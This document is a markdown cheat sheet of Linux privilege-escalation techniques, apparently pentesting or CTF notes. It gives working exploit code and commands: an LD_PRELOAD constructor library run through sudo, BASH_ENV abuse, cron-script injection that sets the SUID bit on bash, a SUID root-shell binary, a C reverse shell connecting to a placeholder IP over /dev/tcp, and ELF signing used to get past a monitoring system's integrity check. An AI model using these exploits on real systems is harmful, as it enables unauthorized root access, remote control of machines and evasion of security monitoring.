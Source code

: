 ##  Privilege Escalation via Python

```python
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

> Spawns a root shell if the script is run with root privileges.

---

##  LD\_PRELOAD + sudo

`LD_PRELOAD` is an environment variable used by the dynamic linker to load a custom shared library before any others.  This allows overriding standard library functions — useful for debugging, but exploitable for privilege escalation if preserved by `sudo`.
### 🔹 Exploit example

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void run_me_first() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```

**Compile:**

```bash
gcc -fPIC -shared -o exploit.so exploit.c
```

**Run:**

```bash
sudo LD_PRELOAD=./exploit.so /usr/bin/ping
```

---

## BASH_ENV + sudo

`BASH_ENV` is an environment variable read by **bash** before executing any non-interactive script.  
### 🔹 Exploit example

If `sudo -l` contains:

```bash
env_keep+="BASH_ENV"
```

then `sudo` will preserve this variable, allowing privilege escalation if you can run a bash script as root.

```bash
echo '/bin/bash -p' > /tmp/root.sh
chmod +x /tmp/root.sh
sudo BASH_ENV=/tmp/root.sh /usr/bin/systeminfo
```

Here, `/usr/bin/systeminfo` is a root-allowed bash script.  
Before executing it, bash will source `/tmp/root.sh`, spawning a root shell.

--- 
##  Crontab 

###  🔹Where to look:

- `/etc/crontab`
- `/etc/cron.*/*`
- Systemd timers (`systemctl list-timers`)

###  🔹Exploitation Steps:

1. **Identify a writable target**:

   - Check if you can edit a script or file executed by the cronjob.

2. **Inject malicious code**:

   - For example, add a reverse shell or privilege escalation payload to the script:
     ```bash
     #!/bin/bash
     chmod u+s /bin/bash
     ```
   - This will set the SUID bit on `/bin/bash`, allowing root shell access with:
     ```bash
     /bin/bash -p
     ```

3. **Wait for the cronjob to run** — Check the timing configuration of the cronjob. Crontab lines follow this format:

```
# ┌───────────── minute (0 - 59)
# │ ┌───────────── hour (0 - 23)
# │ │ ┌───────────── day of month (1 - 31)
# │ │ │ ┌───────────── month (1 - 12)
# │ │ │ │ ┌───────────── day of week (0 - 7) (Sunday is 0 or 7)
# │ │ │ │ │
# * * * * *  user-name  command-to-be-executed
```
---

##  Crontab → SUID bash

```python
os.system('chmod u+s /bin/bash')
```

Then:

```bash
/bin/bash -p
```

> Runs bash with root privileges if the SUID bit is set.

---

##  SUID via C binary

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

> Compiles a binary that spawns a root shell when executed by a script with SUID. Look [[UID]] for more details

---

## Reverse Shell via C binary 

```c
#include <unistd.h>
int main() {
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/<YOUR_IP>/1337 0>&1", NULL);
    return 0;
}
```

> Compiles a binary that spawns a  reverse shell on port 1337 when executed by a root srcipt like cronjob (RUID = 0)

---
## ELF Signing Tool

To bypass signature verification by the monitoring system, we signed the ELF binary using:

🔗 [linux-elf-binary-signer GitHub repository](https://github.com/NUAA-WatchDog/linux-elf-binary-signer)

Sign the binary with:
```bash
./elf-sign sha256 key.pem key.pem monitor
```

This generates a signed ELF executable that passes integrity checks during the scan.
